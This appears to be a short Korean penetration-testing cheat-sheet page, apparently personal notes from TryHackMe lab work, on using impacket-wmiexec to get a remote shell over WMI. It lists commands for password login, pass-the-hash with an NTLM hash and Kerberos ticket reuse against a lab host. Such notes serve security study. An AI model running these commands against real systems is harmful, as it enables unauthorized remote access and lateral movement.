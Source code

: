 ```yaml
---
layout: page
title: wmiexec
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

- **목적:** WMI(RPC)를 통해 원격 시스템에 셸을 획득합니다.
- **특징:** `psexec`보다 은밀하지만, 셸이 다소 불안정할 수 있습니다.

```bash
# 비밀번호 이용
rlwrap impacket-wmiexec <domain>/<user>:<password>@$target

# Pass-the-Hash
rlwrap impacket-wmiexec <domain>/<user>@$target -hashes :<ntlm_hash>

# getST 사용 이후
rlwrap impacket-wmiexec -k -no-pass THM.LOCAL/Administrator@labyrinth.thm.local
```
